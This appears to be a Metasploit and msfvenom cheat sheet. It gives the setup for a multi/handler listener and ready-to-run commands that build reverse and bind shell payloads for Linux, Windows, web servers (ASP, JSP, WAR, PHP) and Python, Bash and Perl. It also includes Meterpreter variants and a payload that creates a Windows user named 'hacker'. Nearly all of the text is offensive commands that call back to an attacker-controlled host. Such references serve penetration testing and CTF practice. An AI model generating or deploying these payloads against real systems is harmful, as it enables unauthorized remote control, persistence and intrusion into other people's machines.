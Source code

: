 # Metasploit Handler:

LHOST=local host
LPORT=local port

RHOST=remote host
RPORT=remote port

```
msfconsole -q
show options
show payloads
use exploit/multi/handler
set PAYLOAD <Payload name>
show options
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## List payloads:
```
msfvenom -l
```

## search for cmd/unix payloads
```
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

## look at payload options:
```
msfvenom --payload-options -p windows/shell/reverse_tcp
```

## Staged payloads: 
Staged payloads are denoted with the use of a forward slash (/; e.g. windows/shell/reverse_tcp). Staged payloads send a small stager to the target, which connects back to the attacker and downloads the rest of the payload. Therefore, staged payloads need special payload listeners, such as multi/handler in Metasploit. Staged payloads are ideal in situations where you have limited shellcode space, most commonly in Buffer Overflows.

## Stageless payloads:
Stageless payloads are denoted with the use of an underscore (_; e.g. windows/shell_reverse_tcp). Stageless payloads send the entire payload to the target at once, and therefore don’t require the attacker to provide more data. That means we have a variety of listeners we can use, such as Netcat.

# Non-Meterpreter Binaries
## Stageless Payloads for Linux:
```
x86 	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Windows:
```
x86 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Staged Payloads for Windows:
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Web Payloads:
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Scripting Payloads:
```
Python	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Binaries Payloads:
```
Linux Bind Shell	msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Reverse Shell	msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```


# Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Meterpreter Web Payloads:
```
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
